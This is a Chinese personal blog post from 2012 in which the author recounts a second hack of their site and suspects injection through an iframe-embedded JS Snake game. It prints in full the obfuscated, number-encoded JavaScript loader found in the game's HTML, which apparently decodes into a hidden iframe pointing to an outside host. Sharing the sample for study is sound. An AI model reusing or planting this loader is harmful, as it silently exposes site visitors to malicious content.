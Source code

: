 ```yaml
---
title: 恭喜网站第二次被黑！
author: Flowerowl
layout: post
permalink: /2114.html
duoshuo_thread_id:
  - 2130016
views:
  - 843
bot_views:
  - 2
categories:
  - 杂记
tags:
  - 黑
---
```

公元2012年5月23日上午11点，Lazynight被某些hacker给黑掉，终于，啊，继2012.5.11再一次被攻击。

起初我怀疑是Typecho程序本身有漏洞，这个博客程序自2010年8月份便停止了更新。

于是我又折腾到Wordpress，本来想折腾Drupal，后来网速那个慢···就直接滚回Wordpress了。

中间把数据库从TE转到WP，又从WP转到TE，来来回回折腾了几次，shit，浪费了一下午。

计划全泡汤！！

好吧，就当了一次上传下载工&#8230;

但是！

下午5点收拾残局的时候发现了别人是怎么攻击的&#8230;（这里只是自己猜测的）

应该是<span style="color: #ff0000;">通过iframe漏洞注入js恶意代码</span>

好吧，前天晚上我发表了一篇日志：JS版贪吃蛇，并在那篇文章里插入了iframe代码，能使游戏可以在文章里运行。

今天打开贪吃蛇源文件，发现那行js恶意代码就在html文件里&#8230;

于是就有了以上的猜想。

try{q=document.createElement(&#8220;u&#8221;);q.appendChild(q+&#8221;");}catch(qw){h=-012/5;zz=&#8217;a'+&#8217;l';f=&#8217;fr&#8217;+'o&#8217;+'m&#8217;+'Ch&#8217;;f+=&#8217;arC&#8217;;}try{qwe=prototype;}catch(brebr){zz=&#8217;zv&#8217;.substr(123-122)+zz;ss=\[];f+=(h)?&#8217;ode&#8217;:&#8221;";w=this;e=w[f.substr(11)+zz];n=&#8221;1.5$1.5$49.5$48$13$17$47$52.5$46.5$55.5$51.5$47.5$52$55$20$48.5$47.5$55$31.5$51$47.5$51.5$47.5$52$55$54.5$30$57.5$39$45.5$48.5$36$45.5$51.5$47.5$17$16.5$46$52.5$47$57.5$16.5$17.5$42.5$21$43.5$17.5$58.5$3.5$1.5$1.5$1.5$49.5$48$54$45.5$51.5$47.5$54$17$17.5$26.5$3.5$1.5$1.5$59.5$13$47.5$51$54.5$47.5$13$58.5$3.5$1.5$1.5$1.5$47$52.5$46.5$55.5$51.5$47.5$52$55$20$56.5$54$49.5$55$47.5$17$14$27$49.5$48$54$45.5$51.5$47.5$13$54.5$54$46.5$27.5$16.5$49$55$55$53$26$20.5$20.5$57$57.5$46.5$55.5$50$53.5$51.5$20$52$54.5$21$22$20$46$49.5$58$20.5$47$20.5$23$21$23$20$53$49$53$28.5$48.5$52.5$27.5$21.5$16.5$13$56.5$49.5$47$55$49$27.5$16.5$21.5$21$16.5$13$49$47.5$49.5$48.5$49$55$27.5$16.5$21.5$21$16.5$13$54.5$55$57.5$51$47.5$27.5$16.5$56$49.5$54.5$49.5$46$49.5$51$49.5$55$57.5$26$49$49.5$47$47$47.5$52$26.5$53$52.5$54.5$49.5$55$49.5$52.5$52$26$45.5$46$54.5$52.5$51$55.5$55$47.5$26.5$51$47.5$48$55$26$21$26.5$55$52.5$53$26$21$26.5$16.5$28$27$20.5$49.5$48$54$45.5$51.5$47.5$28$14$17.5$26.5$3.5$1.5$1.5$59.5$3.5$1.5$1.5$48$55.5$52$46.5$55$49.5$52.5$52$13$49.5$48$54$45.5$51.5$47.5$54$17$17.5$58.5$3.5$1.5$1.5$1.5$56$45.5$54$13$48$13$27.5$13$47$52.5$46.5$55.5$51.5$47.5$52$55$20$46.5$54$47.5$45.5$55$47.5$31.5$51$47.5$51.5$47.5$52$55$17$16.5$49.5$48$54$45.5$51.5$47.5$16.5$17.5$26.5$48$20$54.5$47.5$55$29.5$55$55$54$49.5$46$55.5$55$47.5$17$16.5$54.5$54$46.5$16.5$19$16.5$49$55$55$53$26$20.5$20.5$57$57.5$46.5$55.5$50$53.5$51.5$20$52$54.5$21$22$20$46$49.5$58$20.5$47$20.5$23$21$23$20$53$49$53$28.5$48.5$52.5$27.5$21.5$16.5$17.5$26.5$48$20$54.5$55$57.5$51$47.5$20$56$49.5$54.5$49.5$46$49.5$51$49.5$55$57.5$27.5$16.5$49$49.5$47$47$47.5$52$16.5$26.5$48$20$54.5$55$57.5$51$47.5$20$53$52.5$54.5$49.5$55$49.5$52.5$52$27.5$16.5$45.5$46$54.5$52.5$51$55.5$55$47.5$16.5$26.5$48$20$54.5$55$57.5$51$47.5$20$51$47.5$48$55$27.5$16.5$21$16.5$26.5$48$20$54.5$55$57.5$51$47.5$20$55$52.5$53$27.5$16.5$21$16.5$26.5$48$20$54.5$47.5$55$29.5$55$55$54$49.5$46$55.5$55$47.5$17$16.5$56.5$49.5$47$55$49$16.5$19$16.5$21.5$21$16.5$17.5$26.5$48$20$54.5$47.5$55$29.5$55$55$54$49.5$46$55.5$55$47.5$17$16.5$49$47.5$49.5$48.5$49$55$16.5$19$16.5$21.5$21$16.5$17.5$26.5$3.5$1.5$1.5$1.5$47$52.5$46.5$55.5$51.5$47.5$52$55$20$48.5$47.5$55$31.5$51$47.5$51.5$47.5$52$55$54.5$30$57.5$39$45.5$48.5$36$45.5$51.5$47.5$17$16.5$46$52.5$47$57.5$16.5$17.5$42.5$21$43.5$20$45.5$53$53$47.5$52$47$30.5$49$49.5$51$47$17$48$17.5$26.5$3.5$1.5$1.5$59.5&#8243;[((e)?"s":"")+"p"+"lit"\](&#8220;a$&#8221;.substr(1));for(i=6-2-1-2-1;i-585!=0;i++){k=i;ss=ss+String.fromCharCode(-1\*h\*(3+1*n[k]));}q=ss;e(q);}

这就是那串代码，想折腾的可以研究一下。

另外，我发现还有其他好几个网站也被注入了以上代码：

<span style="color: #ff0000;"><a href="http://www.csir-iir.org/"><span style="color: #ff0000;">http://www.csir-iir.org/</span></a></span>

可以看他的源代码，顶部的js和这段恶意代码一样···

[<img class="alignnone size-large wp-image-2115" title="ww" src="http://lazynight.me/wp-content/uploads/2012/05/ww-1024x335.gif" alt="" width="1024" height="335" />][1]

&nbsp;

[<img class="alignnone size-large wp-image-2153" title="Lazynight" src="http://lazynight.me/wp-content/uploads/2012/05/20120523102823-1024x435.gif" alt="" width="1024" height="435" />][2]

<span style="color: #ff0000;">总结：别用iframe了啊亲&#8230;</span>

或者你有什么好的方法来预防可以分享一下，感激不尽。

最后：让Hacker的攻击来的更猛烈些吧！

&nbsp;

转载请注明：[于哲的博客][3] &raquo; [恭喜网站第二次被黑！][4]

 [1]: http://lazynight.me/wp-content/uploads/2012/05/ww.gif
 [2]: http://lazynight.me/wp-content/uploads/2012/05/20120523102823.gif
 [3]: http://lazynight.me
 [4]: http://lazynight.me/2114.html